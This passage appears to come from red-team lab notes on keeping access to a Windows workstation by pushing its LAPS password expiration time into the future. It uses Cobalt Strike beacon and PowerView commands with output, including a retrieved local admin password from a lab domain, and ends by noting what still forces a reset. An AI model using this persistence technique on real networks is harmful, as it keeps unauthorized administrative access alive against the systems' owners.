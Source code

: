 If we have the password for a sensitive machine that we'd like to maintain access to, we can prevent a machine from updating its password by setting the expiration date into the future.

```
beacon> powershell Get-DomainObject -Identity wkstn-2 -Properties ms-mcs-admpwdexpirationtime

ms-mcs-admpwdexpirationtime
---------------------------
         132609935231523081
```

The expiration time is an epoch value that we can increase to any arbitrary value. Because the computer accounts are allowed to update the LAPS password attributes, we need to be SYSTEM on said computer.

```
beacon> run hostname
wkstn-2

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> powershell Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```

Now even the native cmdlet reports the expiration date to be the year 2338.

```
beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl

ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : P0OPwa4R64AkbJ
ExpirationTimestamp : 2/11/2338 11:05:23 AM
```

>  The password will still reset if an admin uses the `Reset-AdmPwdPassword` cmdlet; or if **Do not allow password expiration time longer than required by policy** is enabled in the LAPS GPO.